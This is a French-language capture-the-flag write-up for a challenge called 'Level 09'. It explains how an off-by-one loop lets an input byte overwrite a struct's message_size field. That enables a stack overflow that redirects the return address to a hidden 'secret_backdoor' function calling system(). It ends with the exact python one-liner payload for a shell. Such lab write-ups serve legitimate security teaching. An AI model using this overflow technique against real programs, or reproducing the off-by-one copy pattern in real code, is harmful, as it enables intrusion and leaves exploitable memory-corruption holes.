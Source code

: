 # Level 09

Voilà un petit résumé de ce que fait le programme, en incluant les éventuelles attaques possible.

## Lire le nom d'utilisateur

La première chose que le programme fait, c'est lire un nom d'utilisateur. La fonction
`fgets` ne pause pas de problème, elle est correctement protégée. Le soucis, c'est dans la copie
du buffer vers une structure globale.

```c
struct s_data {
    char    message[140];
    char    username[40];
    int     message_size;
};


void main(void) {
    struct s_data data;
    data.message_size = 140;

    char buf[128];

    fgets(buf, 128, stdin);
    for (int i = 0; i <= 40 && buf[i]; i++)
        data.username[i] = buf[i];
}
```

On peut voir ici une erreur dans la condition d'arrêt de la boucle: `i <= 40` à la place de
`i < 40`. Cela signifie que si l'on entre plus de 40 charactères dans notre nom d'utilisateur, l'un
des caractères va être écrit dans le field suivant `username`. Dans notre cas, c'est l'octet de poid
faible de `message_size`.

Par défaut, `message_size` est initializé à 140. Mais en écrivant un caractère particulier, on peut
choisir n'importe quelle valeur entre 0 et 255.

## Lire le message

La seconde partie du programme a pour but de lire un message qui sera copié dans le field `message`.

Cette fois, aucun bug. La lecture du message est correctement protégée, et la copie se fait du bon
nombre de caractères. Le soucis, c'est que l'opération précédente a corrompu la taille du message.

```c
void main(void) {
    /* ... */

    char buf[1024];

    fgets(buf, 1024, stdin);
    for (int i = 0; i < data.message_size && buf[i]; i++)
        data.message[i] = buf[i];
}
```

La taille totale de la structure est 184 octets. Cela signifie qu'une taille de message
supérieure à 184 va écraser une partie de la stack. Et éventuellement atteindre une adresse de
retour.

On peut trouver que 200 octets de message permettent d'atteindre cette addresse.

## Porte dérobée

En affichant la liste des symboles, on peut trouver un symbol appelé `secret_backdoor`. La
décompilation de cette fonction donne:

```c
void secret_backdoor(void) {
    var buf[128];
    fgets(buf, 128, stdin);
    system(buf);
}
```

L'adresse de cette fonction est `0x000055555555488c`.

## Solution

- 40 'A' pour remplir le nom d'utilisateur.
- 0xD0 (208 en hexa) pour la taille du buffer de message
- `\n` pour terminer l'input du nom d'utilisateur
- 200 'A' pour atteindre l'adresse de retour
- '\x8c\x48\x55\x55\x55\x55\x00\x00' L'adresse de `secret_backdoor`.

```sh
(python -c "print('A' * 40 + '\xD0\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; cat) | ./level09
```
